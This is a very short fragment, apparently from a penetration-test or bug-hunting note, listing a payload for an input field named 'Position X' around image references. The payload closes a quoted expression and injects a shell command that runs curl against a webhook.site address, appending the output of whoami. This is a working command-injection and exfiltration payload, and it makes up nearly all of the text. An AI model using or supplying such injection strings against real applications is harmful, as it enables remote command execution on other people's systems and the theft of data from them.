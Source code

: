 Payload for input field "Position X":
`` 0)))}';curl https://webhook.site/2f5964be-b054-461c-84b0-92bff42fc7c3?`whoami`;# ``

![[Pasted image 20240326181315.png]]